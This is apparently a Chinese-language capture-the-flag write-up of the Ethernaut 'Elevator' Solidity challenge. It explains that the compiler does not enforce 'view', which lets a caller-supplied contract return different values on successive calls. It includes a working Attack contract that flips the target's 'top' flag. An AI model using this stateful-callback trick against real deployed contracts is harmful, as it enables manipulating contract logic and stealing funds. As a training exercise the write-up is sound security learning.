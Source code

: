 ## 0x01 Task

```javascript
pragma solidity ^0.4.18;


interface Building {
  function isLastFloor(uint) view public returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

让`top`变成`true`就行

## 0x02 Solution

`Building` 接口中声明了 `isLastFloor` 函数，用户可以自行编写。

在主合约中，先调用 `building.isLastFloor(_floor)` 进行 if 判断，然后将 `building.isLastFloor(_floor)` 赋值给 `top` 。要使 `top = true`，则 `building.isLastFloor(_floor)` 第一次调用需返回 `false`，第二次调用返回 `true`。

思路也很简单，设置一个初始值为 `true` 的变量，每次调用 `isLastFloor()` 函数时，将其取反再返回。

不过，题目中在声明 `isLastFloor` 函数时，赋予了其 `view` 属性，`view` 表示函数会读取合约变量，但是不会修改任何合约的状态。

文档中对`view`的描述

> view functions: The compiler does not enforce yet that a view method is not modifying state.

函数在保证不修改状态情况下可以被声明为视图（view）的形式。但这是松散的，当前 Solidity 编译器没有强制执行视图函数（view function）不能修改状态。

exp：

```javascript
pragma solidity ^0.4.18;

interface Building {
  function isLastFloor(uint) view public returns (bool);
}

contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}

contract Attack {

    address instance_address = 0x0d3eff4f690b817a964835ff8f1daae05aea3648;
    Elevator target = Elevator(instance_address);
    bool public isLast = true;

    function isLastFloor(uint) public returns (bool) {
        isLast = ! isLast;
        return isLast;
    }

    function hack() public {
        target.goTo(1024);
    }

}
```

